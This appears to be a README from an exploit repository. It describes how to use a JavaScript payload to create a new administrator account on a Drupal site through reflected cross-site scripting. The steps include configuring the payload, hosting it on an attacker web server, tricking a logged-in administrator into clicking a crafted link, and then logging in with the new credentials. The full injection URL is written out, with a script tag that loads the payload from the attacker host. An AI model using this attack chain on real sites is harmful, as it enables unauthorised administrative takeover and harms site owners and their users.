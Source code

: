 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccDrupal.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: no password requirements)

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/createAdminAccDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.13` - web server hosting payload

5. [post exploit] attacker logs into target Drupal site using specified credentials

    http://192.168.5.17/user/login

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/Drupal_-_create_new_admin_-_1-1.png)
